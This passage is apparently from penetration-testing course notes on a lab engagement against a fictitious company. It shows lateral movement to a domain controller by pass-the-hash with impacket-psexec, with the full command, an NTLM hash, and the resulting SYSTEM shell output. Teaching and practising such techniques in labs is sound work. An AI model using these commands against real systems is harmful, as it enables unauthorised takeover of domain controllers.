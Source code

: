 ## Lateral Movement
In this section, we'll leverage the domain admin privileges for _beccy_ to get access to the domain controller and therefore, achieve the second goal of the penetration test
+ Because we've obtained the clear text password and NTLM hash for _beccy_, we can use **impacket-psexec** to get an interactive shell on DCSRV1
+ While we could use either of them, let's use the NTLM hash
+ Once we have a command line shell, we confirm that we have privileged access on DCSRV1 (172.16.6.240)
```
kali@kali:~$ proxychains -q impacket-psexec -hashes 00000000000000000000000000000000:f0397ec5af49971f6efbdb07877046b3 beccy@172.16.6.240
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 172.16.6.240.....
[*] Found writable share ADMIN$
[*] Uploading file CGOrpfCz.exe
[*] Opening SVCManager on 172.16.6.240.....
[*] Creating service tahE on 172.16.6.240.....
[*] Starting service tahE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.1006]
(c) Microsoft Corporation. All rights reserved.


C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
DCSRV1

C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.6.240
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.6.254
```
+ Above shows that we achieved all goals of the penetration test by obtaining domain administrator privileges and accessing the domain controller

![[daeebbc40a5cfbb70d96f6b10104b453-assemble_flag.pdf]]

## Wrapping Up
In this Module, we performed a penetration test for the fictitious client BEYOND Finances
+ The goals set by the client were to gain access to the internal network, obtain domain _Administrator_ privileges, and access the domain controller
